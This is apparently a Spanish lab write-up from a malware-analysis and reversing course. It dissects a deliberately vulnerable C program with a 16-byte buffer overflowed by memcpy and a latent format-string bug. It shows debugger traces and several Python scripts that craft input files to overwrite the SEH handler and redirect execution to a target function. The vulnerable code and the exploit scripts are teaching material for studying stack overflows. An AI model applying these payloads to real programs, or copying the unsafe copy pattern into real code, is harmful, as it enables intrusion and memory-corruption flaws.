

# Análisis del código del binario
```c
#include <stdio.h>
#include <string.h>

void call_me() {
	printf("You cannot call me, noob!\n");
}

void parse_file(char* filename){
	char url[16];
	char buffer[512];

	printf("Abriendo fichero %s ...\n", filename);

	FILE *f = fopen(filename, "r");
	if(f == NULL){
		printf("Fallo al abrir el fichero :(\n");
		return;
	}
	printf("Leyendo fichero %s ...\n", filename);

	fread(buffer, 1, 256, f);
	printf("Fichero leido! Contenido: \n");
	//printf(buffer);

	printf("\nBuscando URL en el fichero..\n");

	char* url_start = strstr(buffer, "http://");
	if(url_start == NULL){
		printf("URL no encontrada :(\n");
		return;
	}

	memcpy(url, url_start, 512);

	printf("URL: %s\n", url);

	fclose(f);
	return;
}

int main(int argc, char** argv) {
	if(argc != 2){
		printf("Uso: %s <fichero>\n", argv[0]);
		return -1;
	}

	parse_file(argv[1]);
	return 0;
}
```

Este binario amplia el binario [stack1](https://github.com/soniasalido/cybersecurity/blob/main/LABS/Investigating%20Malware/Master-ENIIT-Analisis-Malware-Reversing/stack-buffer-overflow/stack1/stack1.md). Lee el fichero que se pasa como parámetro y busca en el contenido la subcadena `"http://"`. 
- Si no la encuentra: muestra en pantalla: `URL no encontrada :(` y vuelve.
- Si la encuentra, hace:
  ```c
  memcpy(url, url_start, 512);
  printf("URL: %s\n", url);
  ```
  - Copia desde donde empieza "http://" hasta 512 bytes (esto está mal, porque url solo tiene 16 bytes) y,
  - luego intenta imprimirlo como cadena.

El programa lee los primeros 256 bytes de un fichero, busca dentro de ellos una cadena que empiece por "http://", y si la encuentra intenta copiarla a url y mostrarla por pantalla (aunque lo hace de forma insegura y con desbordamiento de buffer).

## Problemas de seguridad
### 1. buffer no está terminado en '\0'
```c
char buffer[512];
...
fread(buffer, 1, 256, f);
...
char* url_start = strstr(buffer, "http://");
```
donde:
- fread lee hasta 256 bytes sin añadir '\0'.
- strstr espera una cadena C terminada en '\0'.
- Como buffer no está terminado, strstr puede leer más allá de esos 256 bytes (memoria basura) → comportamiento indefinido.

### 2. Desbordamiento de `url`
```c
char url[16];
...
memcpy(url, url_start, 512);
```
donde:
- `url` tiene tamaño 16 bytes.
- Estamos copiando 512 bytes desde `url_start` a `url`.
- Es un stack-based buffer overflow de manual: pisamos todo lo que haya después de url en la pila (variables locales, puntero de retorno, etc.).

Además:
- No se añade '\0' a url, así que luego:
```c
printf("URL: %s\n", url);
```
donde:
- espera que `url` esté terminada en '\0', y volverá a leer memoria fuera del buffer.

### 3. Posible format string (aunque está comentado)
```c
//printf(buffer);
```
donde:
- Si esto se descomenta, tendremos una format string vulnerability:
	- `printf` interpreta el contenido de buffer como formato, no como texto plano.
	- Si el fichero contiene cosas como `%x`, `%n`, etc., podemos leer/escribir memoria.

 ### 4. Fugas de recurso (fichero sin cerrar)
Si no se encuentra la URL:
```c
if(url_start == NULL){
    printf("URL no encontrada :(\n");
    return;
}
```
donde:
- Ese return sale de la función sin hacer `fclose(f)`, así que el fichero queda abierto.


# Primera ejecución del binario

```python
import struct

CALL_ME = 0x00401530

p = bytearray(b'http://')
p += b'A' * 600
p += struct.pack("<I", 0)
p += struct.pack("<I", 0)
p += struct.pack("<I", 0)
p += struct.pack("<I", 0x42424242)
p += struct.pack("<I", CALL_ME)

with open("exp.txt", "wb") as f:
    f.write(p)
```

donde:
- El EIP está en 00401620 que x32dbg rotula como: `<JMP.&memcpy>`. En ensamblador estamos viendo el momento exacto en que va a ocurrir eso:
  ```c
  memcpy va a copiar 256 bytes (0x100)
  ```
- Pero el buffer de destino `(url)` solo tiene 16 bytes.


**Resultado:**
- memcpy empieza a escribir las A en url
- sigue escribiendo más allá: pisa otras variables locales, el EBP guardado y, si sigues, el ret de la función (dirección de retorno).
- eso es el stack-based buffer overflow que estamos intentando observar.


donde:
- EAX = 0022FE88
- [ebp-20] (la variable local url) es la dirección 0x0022FE88.
- En esa dirección el contenido es 0x70747468 = "http" en little endian.
  

**Conclusión:**
- memcpy ya ha copiado la cadena que empezaba en `url_start ("http://AAAAAA...")` encima del `buffer url`.


donde:
- EIP = 0040163E → estamos en el `call <JMP.&fclose>`.
- En el panel de registros: `EAX = 41414141`.
- En el Default (stdcall): `[esp] = 41414141` → es decir, el argumento que se va a pasar a `fclose` es `0x41414141`.
- Eso significa que nuestro overflow:
	- Ha sobrescrito la variable local `f` (el FILE * devuelto por fopen),
	- de manera que cuando el código hace `fclose(f)`, en realidad está haciendo: `fclose((FILE*)0x41414141);` Es un puntero totalmente inválido → cuando entremos en msvcrt!fclose, en cuanto intente dereferenciar ese puntero, lo normal es que se produzca una violación de acceso y el programa se estrelle antes incluso de hacer el `ret` de `parse_file`.


# Analisis punto 00401613

```c
00401608  C74424 08 00010000   mov dword ptr ss:[esp+8], 100h	; 0x100 = 256 - Esto tercer argumento de memcpy → el tamaño - Escribe el valor 0x100 (256d) en [esp+8]
00401610  8945 F0             mov dword ptr ss:[ebp-10], eax	; Guarda en la variable local situada en [ebp-10] el valor de EAX. Resultado `url_start = EAX;`
00401613  894424 04           mov dword ptr ss:[esp+4], eax		; `[esp+4]` es el segundo parámetro de `memcpy → src`.  Resultado: src = url_start;
00401617  8D45 E0             lea eax, dword ptr ss:[ebp-20]	; Calcula la dirección de `[ebp-20]` y la mete en EAX.  Resultado: EAX = &url;
0040161A  890424              mov dword ptr ss:[esp], eax		; `[esp]` es el primer parámetro de `memcpy → dst`. Resultado: dst = url;
0040161D  E8 47110000         call <JMP.&memcpy>				; Llama a `memcpy` con los tres parámetros que acabamos de preparar en la pila.
```

Ese bloque es la preparación de la llamada a memcpy que viene de:
```c
memcpy(url, url_start, 512);   // el compilador la ha dejado en 256 (0x100)
```

En 32 bits, los parámetros de una función como `memcpy(dst, src, size)` se pasan así en la pila:
- `[esp]` → 1er parámetro → `dst`
- `[esp+4]` → 2º parámetro → `src`
- `[esp+8]` → 3er parámetro → `size`


En el vídeo de tutoría, aparece un cambio en este punto:
```c
00401608  C74424 08 00010000   mov dword ptr ss:[esp+8], 200h
```

Este detalle cambia significativamente la explotacion?
Según ChatGPT, no.


# Explotación de la vulnerabilidad
Exploit para explotar la vulnerabilidad:
```c
import struct

CALL_ME = 0x00401530

p = bytearray(b'http://')
p += b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9'

with open("exp2.txt", "wb") as f:
    f.write(p)
```


```c
import struct

CALL_ME = 0x00401530

p = bytearray(b'http://')
p += b'A' * 309 + b'BBBB' + b'CCCC'
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0x42424242)
#p += struct.pack("<I", CALL_ME)

with open("exp3.txt", "wb") as f:
    f.write(p)
```

Otro script:
```c
import struct

CALL_ME = 0x00401530

p = bytearray(b'http://')
p += b'A' * 309 + b'BBBB'
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0x42424242)
p += struct.pack("<I", CALL_ME)

with open("exp4.txt", "wb") as f:
    f.write(p)
```


Se explota la vulnerabilidad ya que hemos conseguido modificar el valor de la función que maneja la excepción.  


donde:
- Vemos valores de las Aes.
- Despues tenemos el primer elemento de la lista enlazada del manejador de excepciones →  Pointer to SEH_Record `0022FFC4 | 42424242`
- Después tenemos la dirección de la función que maneja la excepción → `0022FFC8 | 00401530`. Que la hemos sobreescrito con la dirección de la función `call_me`.
- Cuando se intenta manejar la excepción, llama a la función `call_me`.


Ponemos un breakpoint en la entrada de esta función:

